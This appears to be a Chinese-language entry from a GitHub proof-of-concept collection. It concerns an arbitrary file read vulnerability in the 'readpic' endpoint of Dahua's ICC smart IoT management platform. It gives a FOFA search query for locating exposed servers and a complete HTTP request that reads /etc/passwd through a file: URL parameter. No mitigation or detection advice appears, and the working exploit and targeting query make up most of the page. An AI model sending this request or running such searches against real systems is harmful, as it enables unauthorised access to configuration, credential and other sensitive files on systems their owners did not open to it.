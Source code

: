 
## 大华智能物联ICC综合管理平台readpic任意文件读取漏洞
大华智慧园区综合管理平台是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。该平台的 "readpic" 接口存在一个任意文件读取漏洞，恶意攻击者可通过文件读取漏洞进行访问和读取系统中的文件，包括配置文件、日志和其他敏感数据，从而利用攻击。

## fofa
```
:body="*客户端会小于800*"
```

## poc
```
GET /evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd HTTP/2
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
If-None-Match: W/"63ba2750-93e"
Te: trailers
```

![be62ca49838833e8b7527d0ab2dd5541](https://github.com/wy876/POC/assets/139549762/25cb6acd-b1bc-4012-a52e-92356d47ada5)
